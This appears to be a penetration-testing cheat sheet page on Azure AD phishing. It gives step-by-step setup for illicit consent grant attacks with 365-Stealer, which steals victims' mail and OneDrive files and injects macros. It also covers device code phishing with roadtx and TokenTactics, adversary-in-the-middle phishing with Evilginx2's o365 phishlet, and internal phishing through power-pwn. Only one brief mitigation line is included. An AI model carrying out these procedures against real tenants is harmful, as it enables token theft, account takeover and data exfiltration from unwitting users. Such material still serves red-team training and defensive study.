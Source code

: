 # Azure AD - Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. 

:warning: All Office 365 users will be protected from app-based attacks now that publisher verification is generally available as they "will no longer be able to consent to new multi-tenant apps registered after November 8th, 2020 coming from unverified publishers".


Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.   
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant    
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.    
* **Custom app consent policy**   

### Register Application

1. Login to https://portal.azure.com > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read 
    * Mail.Read / Mail.ReadWrite
    * Mail.ReadBasic
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All 
    * User.ReadBasic.All
    * User.Read


### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
- Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
- Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.


### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - https://github.com/TROUBLE-1/Vajra

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in `roadtx` to get token
```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```


## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`
    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code
    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **access token** and **refresh token**


## Phishing with Evilginx2

* Run [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) with o365 phishlet
    ```powershell
    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
    : config domain username.corp
    : config ip 10.10.10.10
    : phishlets hostname o365 login.username.corp
    : phishlets get-hosts o365
    ```
* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
* Copy certificate and enable the phishing
    ```ps1
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
    : phishlets enable o365

    # get the phishing URL
    : lures create o365
    : lures get-url 0
    ```


### Internal Phishing - Power Platform

> Set up an internal phishing application on a Microsoft-owned domains which will automatically authenticate as users browse to your link.


* Install [mbrg/power-pwn](https://github.com/mbrg/power-pwn) - An offensive and defensive security toolset for Microsoft 365 Power Platform
    ```ps1
    pip install powerpwn
    ```
* Install the application: `powerpwn phishing install-app -t {tenant-id} -e {environment-id} --input {path to application package zip} -n {application name}`
* Share application with org: `powerpwn phishing share-app -t {tenant-id} -e {environment-id} -a {app id}`


## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) - trouble1_raunak - Jun 6, 2021](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
* [The Art of the Device Code Phish - Bobby Cooke - July 12, 2021](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)
* [Power Pwn - Black Hat Arsenal 2023 - Aug 24, 2023](https://www.youtube.com/watch?v=LpdckZyBwvs)
* [Low Code High Risk - Enterprise Domination via Low Code Abuse - Defcon 30 - Oct 20, 2022](https://www.youtube.com/watch?v=D3A62Rzozq4)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)